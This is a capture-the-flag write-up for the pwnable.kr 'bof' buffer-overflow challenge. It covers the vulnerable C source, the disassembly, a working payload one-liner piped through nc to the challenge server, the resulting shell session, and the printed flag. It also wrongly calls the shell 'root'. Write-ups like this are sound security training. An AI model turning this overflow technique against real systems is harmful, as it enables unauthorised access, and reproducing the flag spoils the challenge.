 # bof
slopey112 - 2/24/19

The description of this challenge tells us that it is a buffer overflow vulnerability. Downloading the source code, we can see it is indeed a buffer overflow.

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

It seems that an argument is passed to `func`, which is `0xdeadbeef`. Then it is compared to a key, `0xcafebabe`, and if the keys match, we will gain access to the shell.

We notice straight of the bat that the argument passed to `func` will never change...Unless, of course, we overflow it.

Let's open up GDB and take a look at this. The only function of interest here is `func`, so we'll disassemble that.

```assembly
0x0000062c <+0>:	push   ebp
0x0000062d <+1>:	mov    ebp,esp
0x0000062f <+3>:	sub    esp,0x48
0x00000632 <+6>:	mov    eax,gs:0x14
0x00000638 <+12>:	mov    DWORD PTR [ebp-0xc],eax
0x0000063b <+15>:	xor    eax,eax
0x0000063d <+17>:	mov    DWORD PTR [esp],0x78c
0x00000644 <+24>:	call   0x645 <func+25>
0x00000649 <+29>:	lea    eax,[ebp-0x2c]
0x0000064c <+32>:	mov    DWORD PTR [esp],eax
0x0000064f <+35>:	call   0x650 <func+36>
0x00000654 <+40>:	cmp    DWORD PTR [ebp+0x8],0xcafebabe
0x0000065b <+47>:	jne    0x66b <func+63>
0x0000065d <+49>:	mov    DWORD PTR [esp],0x79b
0x00000664 <+56>:	call   0x665 <func+57>
0x00000669 <+61>:	jmp    0x677 <func+75>
0x0000066b <+63>:	mov    DWORD PTR [esp],0x7a3
0x00000672 <+70>:	call   0x673 <func+71>
0x00000677 <+75>:	mov    eax,DWORD PTR [ebp-0xc]
0x0000067a <+78>:	xor    eax,DWORD PTR gs:0x14
0x00000681 <+85>:	je     0x688 <func+92>
0x00000683 <+87>:	call   0x684 <func+88>
0x00000688 <+92>:	leave  
0x00000689 <+93>:	ret   
```

The first interesting thing we see here is on `<+29>`, where `eax` is given `0x2c` of space. This is none other than the buffer. Wait, but wasn't buffer allocated only 32 bytes? Why is it now 44? Simply put, compilers are weird. To make things more efficient, they allocate memory differently.

However, we can't just overflow the buffer. Let's go down to `<+40>`.

```assembly
0x00000654 <+40>:	cmp    DWORD PTR [ebp+0x8],0xcafebabe
```

Ok, so here's our key comparison. Our goal is make `[ebp+0x8]` equal to the key. A key observation here is that the key is compared to an address 8 bytes above the `ebp`. Why is that? This is because those 8 bytes are the saved stack frame from `main`. So that means if we just overflow 44 bytes, it isn't enough; we must overflow 44 bytes + those 8 bytes, making 52 bytes in total.

Let's call python on the server with these  things in mind. Also keep in mind that when the key matches, we don't immediately get the flag; rather, we are given the shell. That had a second minor complication, but it can be easily resolved.

```shell
(python -c "print 'A'*52+'\xbe\xba\xfe\xca'"; cat) | nc pwnable.kr 9000
```

The use of `cat` requires some explanation. If we just call `python -c "print 'A'*52+'\xbe\xba\xfe\xca'"`, nothing will happen. When I overflow the buffer, I make the keys match, and hence I get access to the shell. But here's the problem with that: I have no input. And so by the time the code finishes executing, the pipe to the shell will already be closed. Here's a neat trick though. If you go on the command line and call `cat` without any arguments, it simply redirects all input passed to it. And so, if I chain `cat` to the end of our payload, I can pass arbitrary root commands, and have that pipe open for as long as I want. 

```
whoami
bof
ls
bof
bof.c
flag
log
log2
super.pl
cat flag
daddy, I just pwned a buFFer :)
```
